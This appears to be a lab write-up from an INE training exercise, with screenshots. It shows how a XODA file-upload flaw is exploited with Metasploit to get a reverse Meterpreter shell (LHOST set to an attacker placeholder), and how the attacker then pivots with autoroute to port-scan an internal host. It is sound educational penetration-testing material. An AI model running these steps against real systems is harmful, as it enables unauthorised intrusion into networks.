









# INE Lab - Exploiting XODA File Upload and Pivoting to Internal Network

 

## 📌 Objective
Exploit the **XODA File Upload** vulnerability on `demo1.ine.local` to:
- Gain initial access via RCE (Remote Code Execution)
- Enumerate internal network services
- Demonstrate pivoting to a secondary target

---

*Conducted in a controlled lab environment. No production systems were affected.*

## 🔍 Methodology

## 1. <span style="color:#e67e22">🌐 Accessibility Verification</span> 🏓
```bash
ping -c 5 demo1.ine.local
```
Host responded to pings, confirming accessibility



*Figure 1: Active host (ICMP response)*

## 2. <span style="color:#e67e22">🛡️ Initial Nmap Scan</span> 🔍

```bash
nmap demo1.ine.local
```

Port 80/HTTP open



*Figure 2: Nmap scan showing open port 80*

## 3. <span style="color:#e67e22">🕵️ Web Service Analysis with cURL</span> 🌐

```bash
curl demo1.ine.local
```

Identified XODA instance (web file manager)



*Figure 3: HTML page revealing XODA*

## 4. <span style="color:#e67e22">💥 Exploitation with Metasploit</span> 🎯

### <span style="color:#9b59b6">🔧 Prerequisites</span>

```bash
/etc/init.d/postgresql start    # Start Metasploit's PostgreSQL for session logging
----------------------------------------------------------------------------------------------
msfconsole                     # Launch Metasploit framework
----------------------------------------------------------------------------------------------
db_status                      # Verify database connection status
```

### <span style="color:#9b59b6">🔎 Exploit Search</span>

```bash
search xoda_file_upload        # Search for XODA-related modules
---------------------------------------------------------------------------------------------
use exploit/unix/webapp/xoda_file_upload  # Select specific exploit
```



*Figure 4: Searching for XODA exploit.*

### <span style="color:#e74c3c">⚙️ Required Configuration</span>

```bash
set RHOSTS demo1.ine.local     # Set target (Remote HOST)
---------------------------------------------------------------------------------------------
set TARGETURI /                # Specify XODA base path (typically root)
---------------------------------------------------------------------------------------------
set LHOST [ATTACKER_IP]        # Configure local IP for reverse connection
---------------------------------------------------------------------------------------------
exploit                        # Execute exploit
```



*Figure 5: Setting exploit option values*

### <span style="color:#3498db">Additional Exploitation Notes</span>
PostgreSQL: Required for storing session data and scan results

⚠️ RHOSTS vs LHOST:

RHOSTS: Attack target

LHOST: Your machine (for reverse shells)

TARGETURI: Many web exploits require path adjustment

Verification: Always use show options before execution to confirm parameters

<span style="color:#2ecc71">✅ Expected Result</span>:

Meterpreter session opened with web service privileges.


*Figure 6: Exploit sent successfully. Meterpreter session initiated.*

## 5. <span style="color:#e67e22">Post-Exploitation</span> 🕵️
<span style="color:#f1c40f">🐚 Interactive Shell</span>

```bash
shell                         # Start basic shell on target (usually non-interactive)
---------------------------------------------------------------------------------------------
/bin/bash -i                  # Force interactive shell
---------------------------------------------------------------------------------------------
ifconfig                      # List target's network interfaces
```



*Figure 7: Shell used to access ifconfig*

### <span style="color:#9b59b6">🗺️ Internal Network Mapping</span>

```bash
run autoroute -s 192.140.124.2 # Create internal route via Meterpreter
                               # '-s' = (subnet): Defines target network for route
---------------------------------------------------------------------------------------------
background                    # Background current session
```



*Figure 8: Data reception route to attacker established*

### <span style="color:#e74c3c">🔍 Internal Port Scanning</span>

```bash
use auxiliary/scanner/portscan/tcp  # Load TCP scan module:
                                   # - More stealthy (slower than Nmap)
                                   # - Native to Metasploit
---------------------------------------------------------------------------------------------
set RHOSTS 192.140.124.3      # Set internal target (from ifconfig)
---------------------------------------------------------------------------------------------
set PORTS 1-65535             # Scan all TCP ports
```



*Figure 9: Finding and setting portscan options*

### <span style="color:#2ecc71">✅ Result</span>

3 open ports detected:

Port 21/FTP

Port 22/SSH

Port 80/HTTP



*Figure 10: Open ports successfully discovered*

### <span style="color:#1abc9c">🎯 Final Notes:
This lab demonstrated how web application vulnerabilities (XODA) can serve as initial vectors for compromising internal networks. The controlled environment allowed testing pivoting techniques without real risk, highlighting the importance of:

Patch management

Network segmentation

Log analysis

</span>

### Disclaimer

This report documents activities performed *exclusively* in a controlled lab environment with:

All machines/targets part of dedicated educational infrastructure

No confidential data or production systems accessed or compromised

Deliberately configured vulnerabilities for educational purposes

All tools used in compliance with lab policies

### Ethics & Compliance:
Demonstrated techniques must only be applied in authorized environments. Unauthorized reproduction on real systems constitutes legal violation.